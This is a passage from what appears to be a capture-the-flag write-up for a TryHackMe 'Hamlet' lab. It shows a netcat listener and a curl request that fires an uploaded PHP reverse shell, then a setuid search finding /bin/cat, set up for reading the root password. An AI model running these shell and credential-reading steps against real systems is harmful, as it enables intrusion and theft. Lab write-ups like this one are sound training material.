 ![shellupload](/assets/img/thm-hamlet/hamlet-4.png "shellupload")

Now we have to execute our shell. Remember that iframe with a text file inside ? This is the key to find where our shell has been uploaded.

```bash
$ nc -lnvp 4444           
listening on [any] 4444 ...

$ curl http://hamlet.thm:8000/repository/project/0/document/1/source/shell.php

connect to [1.1.1.1] from (UNKNOWN) [10.10.245.164] 37388
SOCKET: Shell has connected! PID: 23
ls -la /
total 88
drwxr-xr-x   1 root root 4096 Sep 15 14:47 .
drwxr-xr-x   1 root root 4096 Sep 15 14:47 ..
-rwxr-xr-x   1 root root    0 Sep 15 14:47 .dockerenv
```

We have a foothold on the target as *www-data* and we're inside a container.


## Privilege Escalation

After checking the basic privilege escalation vectors, we can see that /bin/cat has the setuid bit :

```bash
find / -perm /4000 2>/dev/null
/bin/umount
/bin/mount
/bin/cat
/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
```

Let's abuse this to get the root password :
